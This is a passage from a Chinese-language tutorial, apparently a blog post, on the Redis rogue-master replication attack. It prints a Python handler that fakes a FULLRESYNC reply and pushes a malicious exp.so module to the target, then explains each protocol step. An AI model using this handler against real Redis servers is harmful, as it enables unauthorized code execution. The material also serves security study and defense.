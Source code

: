 3.指定exp.so文件大小并发送文件内容。  
  
具体指令  
```
self.request.sendall(b'+FULLRESYNC ' + b'Z' * 40 + b' 1' + DELIMITER)
self.request.sendall(b'$' + str(len(self.server.payload)).encode() + DELIMITER)
self.request.sendall(self.server.payload + DELIMITER)
```  
  
上述指令对应功能  
  
告诉主服务器需要进行全量数据同步，并提供一个虚假的复制偏移量。  
  
指示 exp.so 文件的大小。  
  
发送 exp.so 文件的内容。  
  
伪造数据快照和发送exp,so对应代码如下，感兴趣的读者可以自行阅读。  
```
class RoguoHandler(socketserver.BaseRequestHandler):
    def handle(self):
        while True:
            data = self.request.recv(1024)
            logging.info("receive data: %r", data)
            arr = self.decode(data)
            if arr[0].startswith(b'PING'):
                self.request.sendall(b'+PONG' + DELIMITER)
            elif arr[0].startswith(b'REPLCONF'):
                self.request.sendall(b'+OK' + DELIMITER)
            elif arr[0].startswith(b'PSYNC') or arr[0].startswith(b'SYNC'):
                # 发送伪造的 FULLRESYNC 响应
                self.request.sendall(b'+FULLRESYNC ' + b'Z' * 40 + b' 1' + DELIMITER)
                # 发送 exp.so 文件大小
                self.request.sendall(b'$' + str(len(self.server.payload)).encode() + DELIMITER)
                # 发送 exp.so 文件内容
                self.request.sendall(self.server.payload + DELIMITER)
                break


        self.finish()
```  
  
  
算了，怕读者还不够清楚流程，再叨叨几句。  
  
PING对应+PONG。  
  
REPLCONF对应+OK，表示配置成功。  
  
PSYNC和SYNC表示主  
服务器开始数据同步，对应如下流程  
  
    发送一个伪造的 +FULLRESYNC 响应，后面跟随一个复制偏移量和一个文件空间大小。  
  
    发送exp.so对应的大小。  
  
    发送exp.so内容。  
  
至此，改过程是不是了然于胸了？  
  